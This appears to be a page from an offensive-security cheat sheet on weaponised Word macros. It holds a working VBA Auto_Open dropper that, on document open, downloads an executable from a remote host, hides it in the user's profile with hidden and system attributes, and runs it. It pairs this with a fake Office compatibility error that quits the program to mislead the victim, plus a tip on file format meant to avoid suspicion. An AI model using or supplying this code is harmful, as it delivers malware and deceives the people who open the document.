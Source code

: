 # Macros

## Tips

* Save Word document as "Word 97-2004 Document .doc" to not have to use the "Word Macro-Enabled Document \(.docm\)
* 
## Simple Download / Exec

```text
Sub Auto_Open()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://.../payload.exe", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = Environ("USERPROFILE") & "\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

Inspired by [https://gist.github.com/nopslider/0d48760928642ca190ed](https://gist.github.com/nopslider/0d48760928642ca190ed)

## Print dummy error message and quit

```text
Dim title As String
title = "Microsoft Office (Compatibility Mode)"
Dim msg As String
Dim intResponse As Integer
msg = "This application appears to have been made with an older version of the Microsoft Office product suite. Please have the author save this document to a newer and supported format. [Error Code: -219]"
intResponse = MsgBox(msg, 16, title)
Application.Quit
```

Source: [Unicorn](unicorn.md)

